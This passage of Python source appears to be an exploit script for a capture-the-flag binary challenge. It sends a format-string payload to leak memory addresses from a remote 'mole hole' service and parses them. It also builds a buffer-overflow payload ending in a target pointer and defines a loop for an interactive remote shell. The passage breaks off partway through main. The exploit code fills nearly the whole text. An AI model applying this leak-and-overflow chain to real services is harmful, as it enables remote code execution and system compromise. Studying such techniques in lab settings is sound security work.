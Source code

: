 ```python
    init_data = recv_until(s, b"Select a mole hole (1-9):")
    print("[*] Received initial data:")
    print(init_data.decode(errors="ignore"))
    
    # Send our format string payload.
    leak_payload = "LEAK:%p:%p:%p:%p:%p:%p:%p:%p\n"
    s.sendall(leak_payload.encode())
    
    # Wait for the leaked addresses.
    leak_data = s.recv(1024).decode(errors="ignore")
    print("[*] Leaked data:")
    print(leak_data)
    return leak_data

def parse_leaks(leak_str):
    """
    Parse leaked addresses from the leak string.
    """
    # This regex finds all hexadecimal addresses.
    addresses = re.findall(r"0x[0-9a-fA-F]+", leak_str)
    # Convert to integers.
    addresses = [int(addr, 16) for addr in addresses if addr != "0x0"]
    return addresses

def build_overflow_payload(offset, candidate_ptr):
    """
    Build the payload with:
    - offset bytes of filler
    - followed by the candidate pointer (8 bytes, little-endian)
    """
    padding = b"A" * offset
    payload_ptr = struct.pack("<Q", candidate_ptr)
    payload = padding + payload_ptr
    # Ensure payload is exactly (offset + 8) bytes.
    payload = payload.ljust(offset + 8, b"B")
    return payload

def interactive_shell(s):
    print("[*] Interactive shell. Type commands, and press Enter.")
    try:
        while True:
            cmd = input("$ ")
            if cmd.strip() == "":
                continue
            s.sendall((cmd + "\n").encode())
            time.sleep(0.3)
            data = s.recv(4096).decode(errors="ignore")
            print(data, end="")
    except KeyboardInterrupt:
        print("\n[!] Exiting interactive shell.")
        s.close()

def main():
    # Connect to the target
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))
    
    # 1. Leak addresses.
    leak_str = leak_addresses(s)
    candidates = parse_leaks(leak_str)
    if not candidates:
        print("[-] No addresses leaked. Exiting.")
        s.close()
```